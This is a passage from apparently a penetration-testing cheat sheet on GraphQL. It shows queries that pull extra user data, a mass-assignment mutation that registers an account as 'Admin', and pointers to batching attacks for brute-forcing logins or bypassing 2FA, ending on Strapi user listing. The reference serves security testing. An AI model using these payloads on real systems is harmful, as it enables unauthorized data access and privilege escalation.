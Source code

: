 ```js
query {
  listPosts(postId: 13) {
    title
    description
  }
}
```

3. If you discover additional objects such as "user" you can try to fetch additional sensitive information:

```js
query {
  listPosts(postId: 13) {
    title
    description
  }
user {
    username
    email
    firstName
    lastName
    }
}
```

4. In mutation you can add a field that is not visible or modificable, like role admin.

```js
mutation {
    registerAccount(nickname:"hacker", email:"hacktheplanet@yeswehack.ninja", password:"StrongP@ssword!", role:"Admin") {
        token {
             accessToken
        }
        user {
           email
           nickname
           role
           } 
       }
    }
}
```

6. Use some tools. [[#Useful tools]].

7. You can try to do [Batching attack](https://web.archive.org/web/20220516130039/https://lab.wallarm.com/graphql-batching-attack/). For example to bruteforce login or 2FA bypassing.

# Strappi

Strapi is a headless CMS(don't include frontend) write in node.js and it's used for create apis faster. In strappy you can list users with **usersPermissionsUsers**, but if the query is private you're going to obtain a forbidden message.
